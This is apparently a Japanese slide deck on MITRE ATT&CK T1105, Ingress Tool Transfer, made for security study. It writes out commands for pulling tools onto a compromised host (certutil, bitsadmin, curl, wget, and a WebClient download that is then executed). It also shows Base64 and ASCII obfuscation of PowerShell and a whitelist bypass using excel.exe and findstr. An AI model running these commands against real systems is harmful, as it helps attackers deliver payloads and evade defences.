

<!-- header: MITRE ATT&CK T1105 Ingress Tool Transfer -->
<!-- $footer: MITRE ATT&CK T1105 Ingress Tool Transfer -->
<!-- size:  4:3 -->
<!-- _class: lead -->
# T1105
# Ingress Tool Transfer

---
<!-- paginate: true -->
<!-- page_number: true -->

### 超概要
攻撃者は、使用するツールを標的に送り込む必要がある。

---
### 目的
攻撃者は標的システムへのアクセス後、  
目的を達成するためのアクションを実行する。  

使用するツールを侵害されたネットワークへ  
持ち込むために`Ingress Tool Transfer`を利用。

---
### 分類


| ID | T1105 |
| :--- | :--- |
| サブテクニック | なし |
| 戦術 | コマンドアンドコントロール |
| プラットフォーム | Linux、Windows、macOS |
| 必要な権限 | ユーザー |
| データソース | ファイル<br>・ファイルの作成<br>ネットワークトラフィック<br>・ネットワーク接続の作成<br>・ネットワークトラフィックコンテンツ<br>・ネットワークトラフィックフロー |

---

### MATRICES


---
### 定義
> 攻撃者は、ツールやその他のファイルを外部システムから侵害された環境に転送する可能性がある。
ファイルはC2チャンネルを介して外部の攻撃者が制御するシステムからコピーして、ツールを被害者のネットワークに持ち込むか、FTPなどの別のツールを使用した代替プロトコルを介してコピーできる。
scp、rsync、sftpなどのネイティブツールを使用してMacおよびLinuxにファイルをコピーすることもできる。

---
### How to Ingress Tool Transfer?
- **Push**
対象の外部からファイルを送り込む

- **Pull**
対象の内部操作で、外部からファイルを取得する

---
### Push - Linux/macOS
**rsync**
```bash
rsync -r {local_path} {username}@{remote_host}:{remote_path}
```

---
### Push - Windows/Linux/macOS
**scp**
```bash
scp {local_file} {username}@{remote_host}:{remote_path}
```
**sftp**
```bash
sftp {username}@{remote_host}:{remote_path} <<< $'put {local_file}'
```

---
### Pull - Linux/macOS

**rsync**
```bash
rsync -r {username}@{remote_host}:{remote_path} {local_path}
```


---
### Pull - Windows/Linux/macOS
**scp**
```bash
scp {username}@{remote_host}:{remote_file} {local_path}
```
**sftp**
```bash
sftp {username}@{remote_host}:{remote_file} {local_path}
```
**wget**
```bash
wget http://{remote_host}/{remote_file} -OutFile {local_path}
```
**curl**
```bash
curl -o {local_path} http://{remote_host}/{remote_file}
```


---
### Pull - Windows
**certutil**
```cmd
cmd /c certutil -urlcache -split -f {remote_file} {local_path}
```
**verifyctl**
```ps1
$datePath = "certutil-$(Get-Date -format yyyy_MM_dd)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f {remote_file}
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination {local_path} }
```

---
### Pull - Windows
**BITSAdmin**
```bat
C:\Windows\System32\bitsadmin.exe /transfer {bits_job_name} /Priority HIGH {remote_file} {local_path}
```

**DownloadString**
```ps1
PS C:\> (New-Object Net.WebClient).DownloadString('https://example.com/index.html') | Out-File hoge.txt; Invoke-Item hoge.txt
```

---
<!-- _footer : https://binary-pulsar.hatenablog.jp/entry/2018/09/14/000000 -->
### Base64によるPowerShell難読化
WindowsはUnicodeを標準としているため、実行するコマンドの文字列をUnicodeのバイト列に変換してからBase64エンコードする。

```ps1
PS C:\> $command = "(New-Object Net.WebClient).DownloadString('https://example.com/index.html')
 | Out-File hoge.txt; Invoke-Item hoge.txt"
PS C:\> $unicodeBytes = [System.Text.Encoding]::Unicode.GetBytes($command)
PS C:\> [System.Convert]::ToBase64String($unicodeBytes)
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE
AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwBlAHgAYQBtAHAAbABlAC4AYwBvAG0A
LwBpAG4AZABlAHgALgBoAHQAbQBsACcAKQAgAHwAIABPAHUAdAAtAEYAaQBsAGUAIABoAG8AZwBlAC4AdAB4AHQAOwAg
AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgAGgAbwBnAGUALgB0AHgAdAA=
```

---
### Base64によるPowerShell難読化 - 実行例
PowerShell
```ps1
PS C:\> powershell.exe -enc
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE
AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwBlAHgAYQBtAHAAbABlAC4AYwBvAG0A
LwBpAG4AZABlAHgALgBoAHQAbQBsACcAKQAgAHwAIABPAHUAdAAtAEYAaQBsAGUAIABoAG8AZwBlAC4AdAB4AHQAOwAg
AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgAGgAbwBnAGUALgB0AHgAdAA=
```

cmd
```
cmd.exe /c "%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe -enc
KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBE
AG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAcwA6AC8ALwBlAHgAYQBtAHAAbABlAC4AYwBvAG0A
LwBpAG4AZABlAHgALgBoAHQAbQBsACcAKQAgAHwAIABPAHUAdAAtAEYAaQBsAGUAIABoAG8AZwBlAC4AdAB4AHQAOwAg
AEkAbgB2AG8AawBlAC0ASQB0AGUAbQAgAGgAbwBnAGUALgB0AHgAdAA="
```

---
<!-- _footer : https://binary-pulsar.hatenablog.jp/entry/2018/09/01/000000 -->
### ASCIIコードによるPowerShell難読化

任意のコマンド`whoami`を1文字ずつASCIIコードに変換。
```ps1
'whoami' | %{ [Text.Encoding]::ASCII.GetBytes($_) }
```
変換後の値が得られる（実際は1行ずつ値を出力）。
```
119, 104, 111, 97, 109, 105
```
得られた結果を変換、結合するコードを作成。
```ps1
powershell (((119, 104, 111, 97, 109, 105) | %{ ([Int]$_ -as [char]) }) -Join '')
```


---
### LOLBin / LOLBaS

侵入時点の標的上には攻撃者の独自ツールは存在しない。  
OS標準で存在しているシステムツールをまずは使用する。

**LOLBin**：Living Off the Land Binary
**LOLBaS**：Living Off the Land Binary and Script

**LOLBAS-Project** https://lolbas-project.github.io/
Windowsの標準的なコマンドによるDownload, Upload, Execute, Copyなどの手法がまとめられている。

---
<!-- _footer: https://lolbas-project.github.io/lolbas/OtherMSBinaries/Excel/ -->
### excel.exeによるファイルダウンロード

excel：Microsoft Excelを起動するコマンド

```cmd
excel.exe http://example.com/hoge.dll
```

ファイルはExcel上で読み取り専用で開くが、  
ローカルの所定のフォルダにキャッシュとして保存される。

Excelを使用することで実行可能ソフトのホワイトリストを回避し、ペイロードをダウンロードすることが可能。


詳しい手法は下記を参照。
[Unsanitized file validation leads to Malicious payload download via Office binaries. | by Reegun J | Medium](https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191)


---
<!-- _footer: https://lolbas-project.github.io/lolbas/Binaries/Findstr/ -->
### findstr.exeによるファイルダウンロード

findstr：ファイル内を正規表現で検索するコマンド

```cmd
findstr /V /L hogehoge \\servername\\file.exe > c:\work\work.exe
```
/V：指定した文字列を**含まない行**をすべて表示
/L：検索文字列をリテラルとして使用する

結果、検索条件を含む行が1つも存在しないため、  
元と同じ内容のwork.exeが任意のパスにコピーされる。

※ HTTPプロトコルでのダウンロードには対応していない。

---
### 補足
**T1105**は、MITRE ATT&CK v6.3まで  
「Remote FileCopy」だった。

**Remote File Copy, Technique T1105 - Enterprise | MITRE ATT&CK®**
https://attack.mitre.org/versions/v6/techniques/T1105/

---
### 「Remote FileCopy」からの変更点

| Title | TACTIC |
| :--- | :--- |
| Remote File Copy | Command And Control, Lateral Movement |
| Ingress Tool Transfer | Command And Control |

---
### 「Remote FileCopy」の定義（前半）
> あるシステムから別のシステムへファイルをコピーし、攻撃用ツールやその他のファイルを配置することができる。
ファイルは、攻撃者が制御する外部のシステムからC2チャンネルを介してコピーし、被害者のネットワークにツールを持ち込むか、FTPなどの別のツールを使用した代替プロトコルを介してコピーできる。
scp、rsync、sftpなどのネイティブツールを使用してMacおよびLinuxにファイルをコピーすることもできる。

---
### 「Remote FileCopy」の定義（後半）
> 攻撃者は被害者の内部システム間でファイルを横方向にコピーし、SMBを介して接続された共有ネットワークによるファイル共有や、Windows管理共有またはRDPの認証済み接続などの固有のファイル共有プロトコルを使用したり、リモート実行による横方向の移動も対応することができる。

`Ingress Tool Transfer`になって、この部分が無くなった。

---
### 参考
- [Ingress Tool Transfer, Technique T1105 - Enterprise | MITRE ATT&CK®](https://attack.mitre.org/techniques/T1105/)
- [MITRE ATT&CK® 頻出手口 トップ10（2020年度下期）: NECセキュリティブログ | NEC](https://jpn.nec.com/cybersecurity/blog/210402/index.html)
- [ATT&CK with Sub-Techniques — What You Need to Know | by Blake Strom | MITRE ATT&CK® | Medium](https://medium.com/mitre-attack/attack-subs-what-you-need-to-know-99bce414ae0b)
- [Ingress Tool Transfer - Threat Detection Report - Red Canary](https://redcanary.com/threat-detection-report/techniques/ingress-tool-transfer/)
- [MITERATT＆CK®TechniqueT1105：Remote File Copy - Red Canary](https://redcanary.com/threat-detection-report/techniques/remote-file-copy/)
- [atomic-red-team/T1105.md at master · redcanaryco/atomic-red-team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1105/T1105.md)
- [PowerShell難読化の基礎 (3) - Binary Pulsar](https://binary-pulsar.hatenablog.jp/entry/2018/09/14/000000)
- [Living Off The Land Binaries and Scripts (and also Libraries)](https://lolbas-project.github.io/)
- [GTFOBins](https://gtfobins.github.io/)
